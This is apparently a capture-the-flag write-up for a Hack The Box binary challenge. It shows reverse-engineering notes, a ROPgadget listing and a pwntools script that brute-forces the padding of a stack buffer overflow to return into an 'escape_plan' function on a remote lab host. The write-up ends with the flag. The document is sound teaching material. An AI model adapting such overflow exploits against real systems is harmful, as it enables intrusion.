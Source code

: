 ```yaml
---
ai_date: '2025-04-27 05:16:28'
ai_summary: Exploited stack-based buffer overflow with ROP to jump to 'escape_plan'
  at 0x00401255, using 'A' repeated N times and a crafted RET address.
ai_tags:
- rop
- bof
- ret2addr
created: 2024-07-17T02:27
points: 975
solves: 65
tags:
- rop
updated: 2024-08-04T19:33
---
```


We can trace where `flag.txt` is being read with xrefs.
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1721197843/2024/07/e62b4570083b8286b45a72507f1b0359.png)

We have to jump to `0x00401255` `escape_plan`.

Reading `main`.

```cpp
iVar1 = strncmp(s1, "69", 2);
if (iVar1 != 0) {
	iVar1 = strncmp(s1, "069", 3);
	if (iVar1 != 0) goto code_r0x004015da;
}
```

Using `ROPgadget` to get the ret addresses.

```
Gadgets information
============================================================
0x0000000000401016 : ret
0x0000000000401112 : ret 0x2e

Unique gadgets found: 2
```

## Solve Script

Payload is `'A' * N + RET + 0x00401255`.

```python
from pwn import *
context.log_level = 'error'

for i in range(100):
    if i % 100 == 0:
        print(i)
    conn = remote("94.237.53.113", 52654)
    conn.recvuntil(b'>> ')
    conn.sendline(b'069')
    conn.recvuntil(b'>> ')
    conn.sendline(b'A'*i+p64(0x401016)+p32(0x00401255))
    data = conn.recvall()
    conn.close()
    if data != b'\n\x1b[1;31m[-] YOU FAILED TO ESCAPE!\n\n' and data != b'':
        print('\n', i, data)
    print('.', end='', flush=True)
    i += 1
# HTB{3sc4p3_fr0m_4b0v3}
```